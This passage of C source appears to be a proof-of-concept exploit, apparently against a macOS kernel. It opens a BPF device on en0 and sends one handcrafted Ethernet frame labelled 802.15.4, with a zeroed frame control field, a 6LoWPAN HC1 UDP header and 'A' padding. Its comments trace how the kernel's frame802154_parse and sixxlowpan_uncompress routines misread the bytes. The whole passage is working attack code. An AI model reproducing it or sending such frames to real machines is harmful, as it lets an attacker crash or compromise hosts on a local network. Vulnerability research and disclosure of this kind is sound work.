 ```c
	memcpy(frame.header.ether_shost, src_mac, ETHER_HDR_LEN);

	//  802.15.4 frame type. 
	frame.header.ether_type = 0x908;
	frame.len = (2*ETHER_ADDR_LEN) + ETHER_TYPE_LEN + data_length;

	// Length of frame - memcpy(&len, mtod(m, u_int8_t *), sizeof(u_int16_t)); len = ntohs(len);
	frame.payload[0] = 0;
	frame.payload[1] = 4;

	// This is the start of the "data" passed to frame802154_parse and considered frame header 
	// m_adj(m, sizeof(u_int16_t)); mtod(mc, uint8_t *)
	// These are used for the FCF (no flags set)
	frame.payload[2] = 0;
	frame.payload[3] = 0;
	frame.payload[4] = 0;

	// As none FCF are set p+=3 bytes. 
	// header length
	// c = p - data;
	// c = 3
	// payload length
	// pf->payload_len = (4 - 3);
	// pf->payload_len = 1

	// This is the start of our payload passed to sixxlowpan_uncompress
	frame.payload[5] = 0;
	frame.payload[6] = 2; // SICSLOWPAN_HC1_NH_UDP

	// Just pad the frame with 'A'. 
	for (int j = 7; j < 32; j++) {
		frame.payload[j] = 0x41;
    } 

    ssize_t bytes_sent;
    bytes_sent = write(bpf, &frame, frame.len);
    if(bytes_sent > 0) {
    	printf("Bytes sent: %ld\n", bytes_sent);
    } else {
    	perror("Error sending frame");
    	exit(1);
    }
}

int main(int argc, char *argv[])
{
	char* interface = "en0";

	int bpf;
	bpf = open_bpf_device();
	assoc_dev(bpf, interface);
	write_single_frame(bpf);

	return 0; 
}  
```
